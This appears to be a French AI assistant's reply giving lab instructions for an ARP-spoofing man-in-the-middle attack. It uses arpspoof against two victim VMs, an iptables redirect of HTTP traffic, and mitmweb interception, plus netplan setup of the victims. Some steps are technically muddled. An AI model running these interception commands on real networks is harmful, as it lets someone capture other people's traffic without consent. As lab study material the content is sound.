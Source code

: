 Il semble que le problème soit lié à la façon dont les requêtes HTTP sont redirigées vers `mitmproxy` et comment `mitmproxy` interprète ces requêtes. Les erreurs `Invalid HTTP request form` indiquent que les requêtes redirigées ne sont pas dans le format attendu par `mitmproxy`.

Pour résoudre ce problème, nous devons nous assurer que `mitmproxy` est configuré correctement pour intercepter le trafic HTTP. Voici les étapes mises à jour pour assurer une configuration correcte :

### Commandes à Exécuter sur la Machine Attaquant (Attacker)

1. **Activer le transfert IP** :
   ```sh
   echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
   ```

2. **Empoisonner les tables ARP** :
   - Empoisonner la table ARP de Victim1 :
     ```sh
     sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
     ```
   - Empoisonner la table ARP de Victim2 (ouvrir un autre terminal pour cette commande) :
     ```sh
     sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20
     ```

3. **Rediriger le trafic HTTP vers le port 8080** :
   ```sh
   sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-ports 8080
   ```

4. **Lancer `mitmweb` sur le port 8080** :
   ```sh
   sudo mitmweb -p 8080
   ```

### Configuration des Machines Victimes (Victim1 et Victim2)

Pour que le trafic des machines victimes soit redirigé via l'attaquant, il est nécessaire de configurer des routes et, éventuellement, des entrées ARP statiques.

1. **Configurer des adresses IP statiques et des routes** :
   - **Victim1** :
     ```sh
     sudo nano /etc/netplan/00-installer-config.yaml
     ```
     Ajoutez ou modifiez le fichier avec :
     ```yaml
     network:
       version: 2
       ethernets:
         enp0s3:
           dhcp4: true
         enp0s8:
           dhcp4: no
           addresses:
             - 10.0.2.20/24
           nameservers:
             addresses:
               - 8.8.8.8
           routes:
             - to: default
               via: 10.0.2.10
     ```
     Appliquez les changements :
     ```sh
     sudo netplan apply
     ```

   - **Victim2** :
     ```sh
     sudo nano /etc/netplan/00-installer-config.yaml
     ```
     Ajoutez ou modifiez le fichier avec :
     ```yaml
     network:
       version: 2
       ethernets:
         enp0s3:
           dhcp4: true
         enp0s8:
           dhcp4: no
           addresses:
             - 10.0.2.30/24
           nameservers:
             addresses:
               - 8.8.8.8
           routes:
             - to: default
               via: 10.0.2.10
     ```
     Appliquez les changements :
     ```sh
     sudo netplan apply
     ```

2. **Configurer des entrées ARP statiques (optionnel)** :
   - **Victim1** :
     ```sh
     sudo ip neigh add 10.0.2.10 lladdr <MAC de Attacker> dev enp0s8
     sudo ip neigh add 10.0.2.30 lladdr <MAC de Victim2> dev enp0s8
     ```
   - **Victim2** :
     ```sh
     sudo ip neigh add 10.0.2.10 lladdr <MAC de Attacker> dev enp0s8
     sudo ip neigh add 10.0.2.20 lladdr <MAC de Victim1> dev enp0s8
     ```

### Vérification de la Connectivité

1. **Vérifiez la connectivité entre les machines** :
   - Depuis **Victim1** :
     ```sh
     ping 10.0.2.10
     ping 10.0.2.30
     ```
   - Depuis **Victim2** :
     ```sh
     ping 10.0.2.10
     ping 10.0.2.20
     ```
   - Depuis **Attacker** :
     ```sh
     ping 10.0.2.20
     ping 10.0.2.30
     ```

### Test de l'Attaque MITM

1. **Empoisonner les tables ARP** depuis l'attaquant :
   ```sh
   sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
   sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20
   ```

2. **Rediriger le trafic HTTP vers `mitmproxy`** sur le port 8080 :
   ```sh
   sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-ports 8080
   ```

3. **Lancer `mitmweb`** sur le port 8080 :
   ```sh
   sudo mitmweb -p 8080
   ```

4. **Accéder à l'interface web de `mitmweb`** :
   - Depuis **Victim1** et **Victim2**, ouvrez un navigateur et accédez à `http://10.0.2.10:8080` (en remplaçant `10.0.2.10` par l'adresse IP de l'interface interne de l'attaquant).

En suivant ces étapes, l'interface web de `mitmweb` sera accessible via le port 8080 et les machines victimes redirigeront leur trafic HTTP vers l'attaquant, permettant ainsi de visualiser le trafic intercepté.
